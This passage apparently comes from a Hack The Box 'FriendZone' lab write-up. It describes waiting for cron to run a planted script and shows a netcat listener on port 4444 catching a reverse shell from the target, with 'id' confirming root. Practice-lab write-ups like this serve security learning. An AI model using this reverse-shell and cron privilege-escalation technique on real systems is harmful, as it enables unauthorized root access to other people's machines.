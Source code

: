 Now all we need to do, it to wait for cron to execute, and we gain a shell as root.
```
root@kali:~/Documents/HTB/Boxes/FriendZone# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.123] 44684
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
